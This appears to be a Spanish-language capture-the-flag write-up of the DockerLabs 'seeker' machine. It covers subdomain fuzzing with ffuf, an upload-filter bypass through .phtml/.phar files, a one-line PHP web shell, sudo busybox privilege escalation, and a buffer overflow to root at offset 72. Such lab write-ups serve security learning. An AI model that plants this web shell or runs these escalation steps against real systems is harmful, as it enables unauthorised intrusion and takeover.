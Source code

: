 nmap: 80

![image](https://github.com/user-attachments/assets/ff3cd078-fc1e-459c-8639-086836758977)

entramos a la pagina y no estaba encontrando nada y viendo el apache2 vi esto:

![image](https://github.com/user-attachments/assets/815b9f3b-7096-4316-816c-ec053989f3d7)

encontré que podemos agregarlo como .dl, si entramos veremos la misma pagina, intente con gobuster otra vez pero no me dio nada asi que lanzamos un fuzzing 

      ffuf -c -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt  -u http://5eek3r.dl -H "Host: FUZZ.5eek3r.dl" -fs 10705

![image](https://github.com/user-attachments/assets/0ea7d491-d1d2-4b82-abbe-d8a190225222)

obtenemos un "crosswords", como es subdominio lo añadimos al host

![image](https://github.com/user-attachments/assets/7857eb8e-95e8-4700-a735-8f632a5578bb)

y obtenemos

![image](https://github.com/user-attachments/assets/0b6ce348-1d7c-4119-979d-682891662c06)

si ingresamos solo lo codifica. vamos al código fuente  

![image](https://github.com/user-attachments/assets/355c76f4-cdb2-41ca-aede-4059fa21d72a)

capturo con burpsuite pero no encuentro nada, o sea las solicitudes me dan las mismas que la web en si, así que seguimos buscando

lo que podríamos intentar como ya encontramos un subdominio, buscar otro subdominio 

     ffuf -c -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt  -u http://5eek3r.dl -H "Host: FUZZ.crosswords.5eek3r.dl" -fs 10705 
     
y dimos que tenemos un admin

![image](https://github.com/user-attachments/assets/4481fc1b-b557-4923-93de-0bfd13b1a1d5)

lo agregamos y vemos que hay una subida de archivos

![image](https://github.com/user-attachments/assets/50a7e2f4-5984-4e57-bf52-e5faf10a417b)

pero al intentar subir archivos me aparece que no permite .py, asi que probamos otros y dimos que funciona con phtml

      <?php
       system($_GET['cmd']);
       ?>


![image](https://github.com/user-attachments/assets/1e1e1292-d36a-4143-8a7f-27eff711345a)

ahora en la URL colocamos el archivo

no funciono así que probamos algo mas directo y con otra extensión

![image](https://github.com/user-attachments/assets/8dc8857f-00ec-4df7-bf5d-0522def667d1)

![image](https://github.com/user-attachments/assets/72c9d0d7-d2dd-4370-a25f-3c703bc7edcb)

obtenemos conexión, pero antes de lanzar la conexión tenemos que lanzarla desde 
> crosswords.5eek3r.dl/shell.phar

dentro veremos como "escalar"

![[dockerlabs/medio/seeker/gt.png]]

buscamos en https://gtfobins.github.io/gtfobins/busybox/#sudo
nos da el comando de sudo 

     sudo busybox sh

lo modificamos 

     sudo -u astu busybox sh

![[dockerlabs/medio/seeker/usuario1.png]]

veremos esto con el usuario astu

![[bas64.png]]

probamos si se puede hacer un ataque de desbordamiento

![[flow.png]]

vemos que se puede, pero como no podemos ver el código por el formato lo pasamos a ghidra, nos pasamos por medio de un servidor el bs64 y veremos algo importante

    printf("Ejecutando /bin/sh");
    setuid(0);
    system("/bin/sh");
    return;

como se ve esta llamando a root por el setuid(0)
creamos como un "código" por decir así para el desbordamiento

     /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 400


![[gdb.png]]

veremos que nos da un valor 0x00000000004013d8
y si colocamos ret nos dará el valor: 0x6341356341346341

obtenemos esto el valor 72 

![[gdb2.png]]

lo que es el offset que se buscaba poder un exploit. hacemos el exploit

![[dockerlabs/medio/seeker/exploit.png]]

con los valores que obtuvimos, lanzamos

![[dockerlabs/medio/seeker/root.png]]

y somos root!
